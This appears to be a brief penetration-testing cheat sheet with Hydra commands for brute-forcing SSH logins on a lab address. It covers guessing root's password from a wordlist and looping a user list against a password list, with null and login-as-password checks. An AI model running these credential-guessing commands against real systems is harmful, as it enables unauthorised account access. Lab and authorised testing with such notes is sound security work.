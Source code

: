 # Hydra

## known username, password list

root with passwordlist, null password, login as pass and reversed login as pass.

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr
```

## user list, password list

userlist with passwordlist, null password, login as pass and reversed login as pass looped around users.

```bash
hydra -v -V -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```
